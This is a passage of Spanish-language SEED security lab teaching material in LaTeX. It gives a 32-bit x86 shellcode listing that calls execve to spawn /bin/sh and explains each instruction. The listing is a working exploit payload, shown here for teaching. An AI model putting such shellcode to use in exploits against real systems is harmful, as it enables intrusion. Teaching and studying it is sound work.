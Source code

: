\subsection{Shellcode de 32-bits} 


\begin{lstlisting}[language={[x86masm]Assembler}] 
; Store the command on stack
xor  eax, eax
push eax          
push "//sh"
push "/bin"
mov  ebx, esp     ; ebx --> "/bin//sh": execve()'s 1st argument

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] --> "/bin//sh"
mov  ecx, esp     ; ecx --> argv[]: execve()'s 2nd argument

; For environment variable 
xor  edx, edx     ; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor  eax, eax     ; 
mov  al,  0x0b    ; execve()'s system call number
int  0x80
\end{lstlisting}

El shellcode anterior invoca a la llamada al sistema \texttt{execve()} para ejecutar \texttt{/bin/sh}. En el laboratorio del Shellcode de SEED explicamos a los estudiantes como escribir un shellcode desde cero. Aquí sólo daremos una pequeña explicación.

\begin{itemize}
\item La tercera instrucción hace push en el stack del parámetro \texttt{"//sh"}, en vez de \texttt{"/sh"}. Esto es porque necesitamos un valor de 32-bits en el stack y \texttt{"/sh"} tiene solamente 24-bits. Afortunadamente \texttt{"//"} es equivalente a \texttt{"/"}, por lo tanto podemos agregar la doble barra sin ningún problema.

\item Necesitamos pasar tres argumentos a {\tt execve()} usando los registros \texttt{ebx}, \texttt{ecx} y \texttt{edx}. La mayoría del shellcode se encarga de construir el contenido con los valores para esos argumentos.

\item La llamada al sistema \texttt{execve()} is invocada cuando se establecer el valor \texttt{0x0b} en \texttt{al} y se ejecuta la instrucción  \texttt{"int 0x80"}.
\end{itemize}
 


